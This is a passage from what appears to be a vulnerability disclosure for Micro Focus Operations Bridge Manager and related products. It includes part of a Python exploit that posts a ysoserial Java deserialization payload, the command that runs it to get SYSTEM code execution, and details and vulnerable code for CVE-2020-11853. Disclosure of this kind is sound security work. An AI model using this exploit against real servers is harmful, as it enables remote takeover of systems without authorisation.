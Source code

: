 ```python

headers = {'content-type': 'application/x-java-serialized-object'}
with open('/tmp/payload.ser', 'rb') as payload:
    res = ses.post(url_pwn, headers=headers, data=payload, verify=False)
    if res.status_code == 500:
        print("[+] Success, your command has been executed!")
    else:
        print("[-] Something went wrong, please try again...")

```

Running the exploit code with:

```
python3 ucmdbPwn.py 10.10.10.99 ysoserial-master-SNAPSHOT.jar calc.exe
```

... will result in *calc.exe* being executed as SYSTEM in the Windows host at 10.10.10.99 running OBM:

![calc.exe running as SYSTEM](./media/obm_calc_system.png)

Both Linux and Windows versions of OBM are affected by this vulnerability. The asciinema cast below shows the exploit in action on the Linux version of OBM:

[![asciicast](https://asciinema.org/a/376442.svg)](https://asciinema.org/a/376442)


### #3: Insecure Java Deserialization in RegistrationServlet
* [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
* [CVE-2020-11853](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11853) / [ZDI-20-1327](https://www.zerodayinitiative.com/advisories/ZDI-20-1327/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: Authentication required
* Affected Products / Versions:
    * Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
    * Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3 \
    * Data Center Automation version 2019.11 
    * Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 
    * Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30 
    * Hybrid Cloud Management version 2020.05 
    * Service Management Automation versions 2020.5 and 2020.02

OBM exposes the class com.hp.opr.legacy.sitescope.servlet.RegistrationServlet at the endpoint */legacy/topaz/sitescope/conf/registration*.

The snippet below shows the decompiled code of the *doPost()* method:

```java
  public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
	ObjectInputStream ois = new ObjectInputStream((InputStream)request.getInputStream());
	HashMap<Object, Object> requestMap = null;
	try {
	  requestMap = (HashMap<Object, Object>)ois.readObject();
	} catch (ClassNotFoundException e) {
	  s_logger.error("Could not get object from request.");
	  response.sendError(400, "Could not get object from request.");
	  return;
	} 
	if (requestMap == null) {
	  s_logger.error("Could not get sample_t from request.");
```